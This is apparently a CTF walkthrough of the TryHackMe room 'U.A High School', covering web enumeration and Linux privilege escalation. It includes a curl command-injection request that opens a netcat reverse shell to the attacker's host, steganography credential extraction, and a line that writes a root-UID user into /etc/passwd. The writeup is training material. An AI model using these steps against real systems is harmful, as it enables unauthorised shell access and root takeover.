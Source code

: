 ```yaml
---
title: "U.A High School"
description: Writeup of the TryHackMe challenge U.A High School
date: 2024-10-28 00:00:00 +0000
categories: [THM, Writeup]
tags: [ctf, linux, web, thm, writeup, nmap, ssh, hexeditor, xxd, gobuster]
pin: true
math: true
mermaid: true
comments: true
media_subpath: /images/uahs
img_path: /images/uahs
image:
  path: oneforall.jpg
---
```


 This is a walkthrough of the TryHackMe room [U.A High School](https://tryhackme.com/room/uahighschool) by [DarkStar7471](https://tryhackme.com/p/DarkStar7471). This is a beginner level room and is a great way to practice web enumeration and basic linux privilege escalation.

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> Objectives: Find the user and root flags
{: .prompt-info }
> Useful Tools: `NMAP`, `Gobuster`, `SSH`, `Hexeditor`
{: .prompt-tip }
<!-- markdownlint-restore -->

## Enumeration/Reconnaissance

### Scanning
Like any challenge, it is important to first do some enumeration to understand what services are running on the target machine. There are many ways to do this, such as port scanning with `NMAP`, or fuzzing directories to find hidden locations. In this case, I will be using a custom `Python` script to automate this process while we manually examine the target. I created this tool, and will be releasing it soon on my [GitHub](https://github.com/Z3R0-sec). This script just runs `NMAP` and `Gobuster` in the background and displays the results in a simple format. Below are the results of the scan:

![Screenshot](Screenshot_2.png){: width="972" height="589" .w-50 .normal}
![Screenshot](Screenshot_4.png){: width="972" height="589" .w-50 .normal}  

### Checking out the Website
We only see two ports open, `22` and `80`. There is also an `/assets`{: .filepath} directory that we will visit later. For now, let's walk the website and see what we can find.

![Screenshot](Screenshot_1.png){: width="972" height="589" .w-50 .normal}![Screenshot](Screenshot_3.png){: width="972" height="589" .w-50 .normal} 

We are greeted with a basic website and limited functionality. Most of the links don't work, but there is a contact page with a form we can will out. I initially thought it might be weak to some form of command injection, but after running a few tests, there was nothing to be found. I then decided to run another `Gobuster` on the website to see if there were any hidden directories or files in the `/assets`{: .filepath} directory.

### Gobuster ... Again
I ran `Gobuster` on the `/assets`{: .filepath} directory using the following command:
  
  ```shell
  gobuster dir -u http://<Target_IP>/assets -w /usr/share/wordlists/dirb/big.txt -t 150 -x php,txt,html
  ``` 

![Screenshot](Screenshot_6.png){: width="972" height="589" }

## Dirsearch and Finding a Vulnerability
This returned a few files, but the one that caught my eye was `index.php`, which had a status code of 200. This is why it is important to indicate file types using the `-x` flag. From this point, I wasn't able to find anything of use, so I decided to use another tool, `dirsearch`, to see if I could find anything else. `Dirsearch` is a great tool for finding 
potentially hidden directories and files on a website, using its extensive wordlist. Let's use this on the `index.php` file we found earlier:

  ```shell
  dirsearch -u http://<Target_IP>/assets/index.php 
  ```
![Screenshot](Screenshot_7.png){: width="972" height="589" }

There is a strange result: `/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir`{: .filepath}. This looks like potentially a command injection vulnerability. Let's try to exploit this. We can do this either in the terminal using `curl` or `wget`, or we can use a browser. As shown below, I used curl, but the results returned are encoded using `base64`. We can decode this using `base64 -d`{: .filepath}. Running the folllowing commands will verify that we have command injection:

  ```shell
  curl http://<Target_IP>/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir | base64 -d
  ```
   ```shell
  curl http://<Target_IP>/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=pwd | base64 -d
  ```
![Screenshot](Screenshot_25.png){: width="972" height="589" }
![Screenshot](Screenshot_10.png){: width="972" height="589" }

We can see a directory listing and changing the end of the string to `pwd`{: .filepath} successfully runs, which indicates that we have command injection.

## Exploiting Command Injection and Gaining a Shell
Knowing that we have command injection, we can now try to get a reverse shell. After checking if `busybox` is installed, I set up a `netcat` listener on my machine and navigated to this URL:

  ```shell
  curl http://<Target_IP>/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=busybox%20nc%20<Your_IP>%20<Your_Port>%20-e%20/bin/sh
  ```
![Screenshot](Screenshot_11.png){: width="972" height="589" }

## Initial Access
We now have our shell, lets upgrade the shell and investigate the system further.
![Screenshot](Screenshot_12.png){: width="972" height="589" }

### Following the Crumbs
We find a directory called `Hidden_Content`{: .filepath} with a file inside called `passphrase.txt`{: .filepath}. This contained another encoded string, which we can decode using `base64 -d`{: .filepath}. This revealed a password, which we will need later.

![Screenshot](Screenshot_13.png){: width="972" height="589" }

I should mention there was an unused image titled `oneforall.jpg`{: .filepath} in the `/assets`{: .filepath} directory. Using `xxd` to examine the image file, we can see that it is actually a PNG file. We can alter the [magic numbers](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)[^1] to convert it back to a PNG file and view the image, or if needed, extract any files or text that were hidden using Stegnography. This is a common technique used to hide files in plain sight.

![Screenshot](Screenshot_14.png){: width="972" height="589" }

After changing the filetype, we can then use `steghide` to extract any hidden files. We were able to make use of the passphrase we found earlier to extract the hidden file. Viewing the `creds.txt`{: .filepath} file, we find a username and password.

![Screenshot](Screenshot_16.png){: width="972" height="589" }

### SSH Access and User Flag
With the credentials we found, we can now SSH into the machine and grab the user flag:

  ```shell
  ssh <username>@<Target_IP>
  ```

![Screenshot](Screenshot_18.png){: width="972" height="589" }

## Privilege Escalation
After logging in, we can see that we are in a restricted shell. We can check the permissions of the user by running `sudo -l`{: .filepath}. This will show us what commands we can run as sudo. There is a script called `feedback.sh`{: .filepath} that can possibly be altered to give us a root shell.

![Screenshot](Screenshot_20.png){: width="972" height="589" }

Let's check the contents of the script:

![Screenshot](Screenshot_21.png){: width="972" height="589" }

The script takes user input and is able to write to files. I tested this by running the script and writing to a file in the `/tmp`{: .filepath} directory. We can use this to create and add a new user with the SUID bit set, which will allow us to run commands as root when we log in as that new user. Back on my host machine, I created a password hash for the new user in the proper format using the following command:

  ```shell
  mkpasswd -m md5crypt -s
 <password>
  ```
![Screenshot](Screenshot_22.png){: width="972" height="589" }

### Root Flag
We can then prepend the username we want to use, run the script back in the SSH session, and add the following line to the prompt to add the new user to the system:

  ```shell
  newuser:passwordhash:0:0:root:/root:/bin/bash > /etc/passwd
  ```
![Screenshot](Screenshot_23.png){: width="972" height="589" }

We can then log in as the new user and grab the root flag:

![Screenshot](Screenshot_24.png){: width="972" height="589" }

# Conclusion
This was a fun room that required a bit of enumeration and some basic exploitation techniques. We were able to find a command injection vulnerability, exploit it to gain a shell, and then escalate our privileges to root. This room is great for beginners and is a good way to practice web enumeration and basic privilege escalation techniques. 

### Useful Resources

[^1]: Source: [Magic Numbers](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)